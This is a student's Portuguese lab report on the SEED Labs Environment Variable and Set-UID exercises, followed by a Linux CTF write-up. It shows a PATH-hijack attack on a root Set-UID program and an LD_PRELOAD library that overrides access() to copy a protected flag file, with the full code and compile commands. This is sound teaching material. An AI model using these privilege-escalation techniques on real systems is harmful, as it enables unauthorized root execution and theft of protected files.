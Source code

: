 # Semana 4

## SEED Labs – Environment Variable and Set-UID Program

### Task 1

Começamos por usar o comando `env` para dar print às variáveis de ambiente.

![image](assets/s4i1.png)

Depois, tentámos criar uma nova variável:

``` bash
export HELLO ="Hello!"
```

E verificamos que existia usando o `env` mais uma vez.

![image](assets/s4i2.png)

### Task 2

Compilámos o ficheiro `myprintenv.c` duas vezes. Na primeira vez, pedimos ao processo filho para dar print às variáveis de ambiente e colocámos o seu output no ficheiro `file`. Na segunda vez, pedimos ao processo pai para dar print às variáveis de ambiente e guardamos o seu output no ficheiro `file1`. Comparámos, então, a diferença entre os dois ficheiros:

![image](assets/s4i3.png)

Concluímos, então, visto que não há diferença entre os dois ficheiros, que as variáveis de ambiente são, de facto, herdadas pelo processo filho.

### Task 3

Compilámos o seguinte ficheiro `mymenv.c`:

``` c
#include <unistd.h>

extern char **environ;

int main()
{
  char *argv[2];

  argv[0] = "/usr/bin/env";
  argv[1] = NULL;

  execve("/usr/bin/env", argv, NULL);  

  return 0 ;
}
```

Depois de o correr a primeira vez, mudámos a invocação do `execve()` para o seguinte:
``` c
execve("/usr/bin/env", argv, environ);  
```

Voltámos então a compilar e corremos novamente.

![image](assets/s4i4.png)

Como o terceiro argumento do `execve()` serve para passar as variáveis de ambiente do programa a ser invocado, quando este é `NULL`, não apresenta nenhuma variável de sistema. Quando este é substituido por um vetor que contém essas variáveis, já passa a apresentá-las.

### Task 4

Compilámos o seguinte ficheiro `systemenv.c`:

``` c
#include <stdio.h>
#include <stdlib.h>

int main() {
  system("/usr/bin/env");
  return 0;
}
```

Ao correr, verificamos que, de facto, as variáveis de ambiente são apresentadas.

![image](assets/s4i5.png)

### Task 5

Compilámos o seguinte ficheiro `printallenv.c`:

``` c
#include <stdio.h>
#include <stdlib.h>

extern char **environ;
int main() {
  int i = 0;
  while(environ[i] != NULL){
    printf("%s\n", environ[i]);
    i++;
  }
}
```

Em seguida, alterarámos o dono do programa para `root` e tornámo-lo um programa Set-UID. Também definimos 3 variáveis de ambiente.

``` bash
sudo chown root printallenv
sudo chmod 4755 printallenv

export PATH=/home/daniel/Documents/uni/fsi
export LD_LIBRARY_PATH=/home/daniel/Documents/uni
export COOL=IAMSOCOOL
```

Por fim, ao correr o `printallenv`, reparámos que, no meio das outras variáveis de ambiente, só estavam 2 das que definimos, sendo a `LD_LIBRARY_PATH` aquele que estava em falta.

```
PATH=/home/daniel/Documents/uni/fsi
COOL=IAMSOCOOL
```



### Task 6

Compilámos o seguinte ficheiro `systemls.c`:

``` c
#include <stdio.h>
#include <stdlib.h>

int main() {
  system("ls");
  return 0;
}
```

E, depois de alterar o dono do programa para `root` e torná-lo um programa Set-UID, verificámos que este corria corretamente. 

![image](assets/s4i6.png)

Agora, iremos criar um programa `malicious.c`:

``` c
#include <stdio.h>
#include <stdlib.h>

int main() {
  printf("I am evil.\n");
  return 0;
}
```

Vamos aproveitar do facto de que, se não for passado o path completo do ficheiro ao `system()`, este irá percorrer os diretórios da variável de ambiente `PATH` em busca do mesmo. Portanto, vamos adicionar um diretório ao `PATH`:

``` bash
export PATH=/home/daniel:$PATH 
```

E vamos mover o nosso código malicioso para esse diretório, com o nome `ls`. Verificamos então que este será executado, quando corrermos o `systemls` denovo.

![image](assets/s4i7.png)

## CTF - Linux Environment

O objetivo deste desafio CTF era capturar a flag contida no diretório `flag`, para o qual não tínhamos permissão de acesso. Uma vez que o sistema estava em modo "read only", foi necessário localizar o diretório `tmp`.

``` bash
cd ../../tmp
```
Ao ler e completar a Tarefa 7 do Lab desta semana, aprendemos que é possível sobrescrever funções da library libc. Para tal, temos primeiro de criar uma "dynamic linked library" do comando `access`.

``` c
#include <stdio.h>
#include <stdlib.h>
int access(const char *pathname, int mode) {
    system("/bin/cat /flags/flag.txt > /tmp/flag");
    return 0;
    }
```

Este programa, ao qual demos o nome de `access.c`, será usado para substituir a função `access` quando o script do administrador for executado novamente.

O `access.c` executa `system()`, no qual utilizamos o comando `cat` para redirecionar o conteúdo que deveria ser escrito em `/flags/flags.txt` para o novo ficheiro `flag`, localizado no diretório `tmp`. Ao criar este ficheiro, também alteramos as suas permissões de forma a conceder permissões de escrita, leitura e execução a qualquer utilizador/grupo/outros.

``` bash
touch flag
chmod 777 flag
```

Após criar o ficheiro `flag` e o programa `access.c`,compilamos este da seguinte maneira:

``` bash
gcc -fPIC -g -c access.c 
gcc -shared -o libaccess.so.1.0.1 access.o -lc
```
Mesmo tendo criado uma `dynamic linked library` e connectado à `C library` usando `-lc`, também é necessário adicionar a seguinte variável de ambiente:

``` bash
echo "LD_PRELOAD=/tmp/libaccess.so.1.0.1" > env
```
Esta variável de ambiente, `LD_PRELOAD` faz com que ao executar o script, relendo todas as livrarias, esta seja a primeira a ser lida.

É possível verificar se esta variável foi criada ao executar o comando `cat env`. Dessa forma, concluímos os passos necessários para obter a flag. Restava apenas esperar que o script fosse executado novamente para obter a flag.

Observamos que quando o script era executado, a variável de ambiente desaparecia do `env`, o que indicava que a flag já estava no ficheiro `flag` no diretório `tmp`. Assim, conseguimos obter a seguinte flag.


```
flag{b9cda820a8be213b709eeb1aa2f4725f}
```


